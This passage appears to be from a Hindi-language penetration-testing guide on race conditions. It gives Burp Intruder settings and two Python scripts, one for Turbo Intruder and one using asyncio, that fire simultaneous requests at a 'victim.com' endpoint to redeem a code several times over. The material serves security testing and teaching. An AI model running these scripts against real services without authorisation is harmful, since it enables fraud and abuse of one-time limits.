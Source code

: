 * **Repeater:** पिछले अनुभाग से उदाहरण देखें।
* **Intruder**: **Intruder** को **अनुरोध** भेजें, **Options menu** के अंदर **थ्रेड्स की संख्या** को **30** पर सेट करें, और **Null payloads** को पेलोड के रूप में चुनें और **30** उत्पन्न करें।
* **Turbo Intruder**
```python
def queueRequests(target, wordlists):
engine = RequestEngine(endpoint=target.endpoint,
concurrentConnections=5,
requestsPerConnection=1,
pipeline=False
)
a = ['Session=<session_id_1>','Session=<session_id_2>','Session=<session_id_3>']
for i in range(len(a)):
engine.queue(target.req,a[i], gate='race1')
# open TCP connections and send partial requests
engine.start(timeout=10)
engine.openGate('race1')
engine.complete(timeout=60)

def handleResponse(req, interesting):
table.add(req)
```
* **Python - asyncio**
```python
import asyncio
import httpx

async def use_code(client):
resp = await client.post(f'http://victim.com', cookies={"session": "asdasdasd"}, data={"code": "123123123"})
return resp.text

async def main():
async with httpx.AsyncClient() as client:
tasks = []
for _ in range(20): #20 times
tasks.append(asyncio.ensure_future(use_code(client)))

# Get responses
results = await asyncio.gather(*tasks, return_exceptions=True)

# Print results
for r in results:
print(r)

# Async2sync sleep
await asyncio.sleep(0.5)
print(results)

asyncio.run(main())
```
## **RC Methodology**
